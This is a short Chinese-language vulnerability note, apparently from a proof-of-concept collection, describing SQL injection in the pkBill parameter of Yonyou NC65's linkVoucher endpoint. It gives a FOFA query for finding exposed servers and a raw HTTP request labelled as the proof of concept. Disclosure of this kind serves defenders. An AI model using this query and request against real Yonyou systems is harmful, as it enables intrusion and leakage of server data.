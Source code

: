 ## 用友NC系统linkVoucher存在sql注入漏洞

NC65系统/portal/pt/yercommon/linkVoucher请求中pkBill存在SQL注入漏洞，可能导致服务器数据泄露。

## fofa

```
title="YONYOU NC"
```

## poc

```
GET /portal/pt/yercommon/linkVoucher?pageId=login&pkBill=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

![image-20240526184707445](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261847497.png)
